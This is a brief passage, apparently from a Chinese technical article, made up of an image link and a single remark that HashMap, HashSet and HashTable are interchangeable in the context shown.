[](https://xzfile.aliyuncs.com/media/upload/picture/20240120125112-892f3002-b74f-1.png)

**注**：这里的HashMap、HashSet、HashTable都可以相互替换
